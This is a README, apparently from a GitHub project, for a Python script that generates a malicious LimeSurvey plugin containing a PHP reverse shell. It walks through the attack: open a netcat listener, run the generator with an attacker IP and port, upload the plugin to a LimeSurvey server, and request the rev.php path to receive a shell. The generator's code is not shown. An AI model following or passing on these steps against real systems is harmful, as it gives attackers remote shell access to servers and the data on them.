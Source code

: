 # Limesurvey shell plugin

this script generates a malicious plugin to get a shell on the host system of limesurvey.

## Usage:

first open a listener on a port, for example:
`nc -lnvp 1234`

then run the script:
`python main.py YOUR_IP_HERE 1234`

when it's done generating the plugin, just upload it to limesurvey and browse to the php reverse shell path, which is:

`http://LIMESURVEY_TARGET_PATH/upload/plugins/dateFunctions/rev.php` and you will get a shell!